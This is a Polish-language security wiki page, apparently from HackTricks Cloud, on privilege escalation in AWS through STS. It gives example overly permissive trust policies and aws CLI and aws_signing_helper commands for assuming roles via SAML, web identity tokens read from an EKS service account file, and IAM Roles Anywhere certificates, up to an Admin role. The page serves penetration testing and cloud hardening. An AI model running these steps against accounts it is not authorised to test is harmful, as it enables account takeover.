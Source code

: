 # AWS - STS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## STS

### `sts:AssumeRole`

Każda rola jest tworzona z **polityką zaufania roli**, ta polityka wskazuje **kto może przejąć utworzoną rolę**. Jeśli rola z **tego samego konta** mówi, że konto może jej użyć, oznacza to, że konto będzie mogło uzyskać dostęp do roli (i potencjalnie **privesc**).

Na przykład, poniższa polityka zaufania roli wskazuje, że każdy może ją przejąć, dlatego **każdy użytkownik będzie mógł privesc** do uprawnień powiązanych z tą rolą.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Możesz podszyć się pod rolę, uruchamiając:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Potencjalny wpływ:** Privesc na rolę.

> [!CAUTION]
> Należy pamiętać, że w tym przypadku uprawnienie `sts:AssumeRole` musi być **wskazane w roli, którą chcemy wykorzystać** i nie w polityce należącej do attacker.\
> Z jednym wyjątkiem: aby **przejmować rolę z innego konta** konto attacker **również musi** mieć **`sts:AssumeRole`** nad tą rolą.


### `sts:AssumeRoleWithSAML`

Polityka zaufania z tą rolą przyznaje **użytkownikom uwierzytelnionym przez SAML możliwość podszywania się pod rolę.**

Przykład polityki zaufania zawierającej to uprawnienie wygląda następująco:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Aby wygenerować poświadczenia umożliwiające podszycie się pod daną rolę, można użyć czegoś takiego:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Jednak **dostawcy** mogą mieć własne **narzędzia**, które to ułatwiają, takie jak [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
**Potential Impact:** Privesc do roli.

### `sts:AssumeRoleWithWebIdentity`

To uprawnienie pozwala na uzyskanie zestawu tymczasowych poświadczeń bezpieczeństwa dla **użytkowników, którzy zostali uwierzytelnieni w aplikacji mobilnej, aplikacji webowej, EKS...** przy użyciu dostawcy tożsamości sieciowej. [Learn more here.](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html)

Na przykład, jeśli **konto serwisowe EKS** powinno mieć możliwość **podszywania się pod rolę IAM**, będzie miało token w **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** i może **przejąć rolę i uzyskać poświadczenia** wykonując coś takiego:
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
### Nadużycia federacji

{{#ref}}
../../aws-basic-information/aws-federation-abuse.md
{{#endref}}

### IAM Roles Anywhere Privesc

AWS IAM RolesAnywhere pozwala workloadom działającym poza AWS przejmować IAM roles przy użyciu certyfikatów X.509. Jednak gdy trust policies nie są odpowiednio ograniczone, mogą zostać wykorzystane do eskalacji uprawnień.

Aby zrozumieć ten atak, warto wyjaśnić, czym jest trust anchor. Trust anchor w AWS IAM Roles Anywhere jest podmiotem będącym korzeniem zaufania; zawiera publiczny certyfikat Certificate Authority (CA) zarejestrowanej w koncie, co pozwala AWS na weryfikację przedstawionych certyfikatów X.509. W ten sposób, jeśli certyfikat klienta został wydany przez tę CA i trust anchor jest aktywny, AWS uznaje go za ważny.

Ponadto profile to konfiguracja definiująca, które atrybuty certyfikatu X.509 (takie jak CN, OU czy SAN) zostaną przekształcone w tagi sesji, a te tagi będą później porównywane z warunkami trust policy.

Ta polityka nie zawiera ograniczeń określających, które trust anchor lub atrybuty certyfikatu są dozwolone. W rezultacie każdy certyfikat powiązany z dowolnym trust anchor w koncie może zostać użyty do przejęcia tej roli.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Service": "rolesanywhere.amazonaws.com"
},
"Action": [
"sts:AssumeRole",
"sts:SetSourceIdentity",
"sts:TagSession"
]
}
]
}

```
Aby privesc, `aws_signing_helper` jest wymagany z https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html

Następnie, używając ważnego certyfikatu, attacker może pivot into the higher privilege role
```bash
aws_signing_helper credential-process \
--certificate readonly.pem \
--private-key readonly.key \
--trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
--profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
--role-arn arn:aws:iam::123456789012:role/Admin
```
Punkt zaufania weryfikuje, że certyfikat klienta `readonly.pem` pochodzi od autoryzowanego CA, a w tym certyfikacie `readonly.pem` znajduje się klucz publiczny, którego AWS używa do weryfikacji, że podpis został wykonany odpowiadającym mu kluczem prywatnym `readonly.key`.

Certyfikat dostarcza również atrybuty (takie jak CN lub OU), które profil `default` przekształca w tagi, których polityka zaufania roli może użyć do zdecydowania, czy autoryzować dostęp. Jeśli w polityce zaufania nie ma warunków, te tagi nie mają zastosowania i dostęp jest przyznawany każdemu, kto posiada ważny certyfikat.

Aby ten attack był możliwy, zarówno punkt zaufania, jak i profil `default` muszą być aktywne.

### Referencje

- [https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation](https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation)

{{#include ../../../../banners/hacktricks-training.md}}

